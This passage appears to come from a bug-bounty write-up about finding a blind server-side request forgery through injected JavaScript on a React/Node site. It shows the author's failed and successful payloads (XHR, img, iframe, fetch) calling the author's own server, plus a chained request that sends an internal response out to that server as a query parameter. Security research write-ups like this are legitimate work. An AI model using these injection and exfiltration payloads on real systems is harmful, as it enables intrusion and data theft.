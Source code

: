 With an ajax call first:
```js
x = new XMLHttpRequest;
x.open( 'GET','https://poc.myserver.com' );
x.send();
```

But didn't receive anything. I tried HTML injection:
```js
i = document.createElement( 'img' );
i.src = '<img src="https://poc.myserver.com/xxx.png">';
document.body.appendChild( i );
```
But didn't receive anything! More tries:
```js
document.body.innerHTML += '<img src="https://poc.myserver.com/xxx.png">';
```
```js
document.body.innerHTML += '<iframe src="https://poc.myserver.com">';
```

But didn't receive anything!!!

Sometimes you know, you have to test stupid things by yourself to understand how stupid it was...
Obviously it was a mistake to try to render HTML code, but hey! I'm just a hacker...
Back to the ajax request, I stayed stuck there for a while.
It took me quite a long time to figure out how to make it work.

I finally remembered that ArticMonkey uses ReactJS on their frontend, I would later learnt that they use NodeJS server side.
Anyway, I checked on Google how to perform an ajax request with it and found the solution in the [official documentation](https://reactjs.org/docs/faq-ajax.html) which lead me to the [fetch()](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API) function which is the new standard to perform ajax calls, that was the key.

I injected the following:
```js
fetch('https://poc.myserver.com')
```

And immediately got a new line in my Apache log.

Being able to ping my server is a thing but it's a blind SSRF, I had no response echoed back.
I had the idea to chain two requests where the second would send the result of the first one.
Something like:

```js
x1 = new XMLHttpRequest;
x1.open( 'GET','https://...', false );
x1.send();
r = x1.responseText;

x2 = new XMLHttpRequest;
x2.open( 'GET','https://poc.myserver.com/?r='+r, false );
x2.send();
```

Again it took me while to get the correct syntax with `fetch()`.
Thanks [StackOverflow](https://stackoverflow.com/a/45529432).

